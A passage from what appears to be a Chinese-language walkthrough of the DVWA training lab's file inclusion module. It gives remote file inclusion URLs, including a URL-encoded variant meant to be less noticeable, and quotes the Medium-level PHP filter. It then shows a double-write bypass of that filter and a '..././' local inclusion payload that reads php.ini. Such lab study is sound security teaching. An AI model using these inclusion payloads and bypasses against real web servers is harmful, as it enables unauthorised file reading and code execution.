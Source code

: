 为了增加隐蔽性,可以对 http://<服务器B IP地址!!!>/phpinfo.txt 进行 URL 编码

例如

`http://192.168.72.128/dvwa/vulnerabilities/fi/?page=http://192.168.72.138/phpinfo.txt`

可以编码为

`http://192.168.72.128/dvwa/vulnerabilities/fi/?page=%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%37%32%2e%31%33%38%2f%70%68%70%69%6e%66%6f%2e%74%78%74` 同样可以执行成功

### Medium

**服务器端核心代码**
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?>
```

可以看到,Medium 级别的代码增加了 str_replace 函数,对 page 参数进行了一定的处理,将"http:// "、"https://"、 " ../"、"..\"替换为空字符,即删除.

**相关函数**
- **str_replace()**
	str_replace() 函数以其他字符替换字符串中的一些字符(区分大小写).

	该函数必须遵循下列规则:
	- 如果搜索的字符串是数组,那么它将返回数组.
	- 如果搜索的字符串是数组,那么它将对数组中的每个元素进行查找和替换.
	- 如果同时需要对数组进行查找和替换,并且需要执行替换的元素少于查找到的元素的数量,那么多余元素将用空字符串进行替换
	- 如果查找的是数组,而替换的是字符串,那么替代字符串将对所有查找到的值起作用.

**漏洞利用**

使用 str_replace 函数是极其不安全的,因为可以使用双写绕过替换规则.

例如 `page=hthttp://tp://<IP地址!!!>/phpinfo.txt` 时,str_replace 函数会将 http:// 删除,于是 `page=http://<IP地址!!!>/phpinfo.txt`,成功执行远程命令.

同时,因为替换的只是"../"、"..\",所以对采用绝对路径的方式包含文件是不会受到任何限制的.

**本地文件包含**

`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=..././..././..././..././..././..././..././..././..././phpStudy/PHPTutorial/WWW/DVWA/php.ini` 读取配置文件成功

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/dvwa/dvwa21.png)

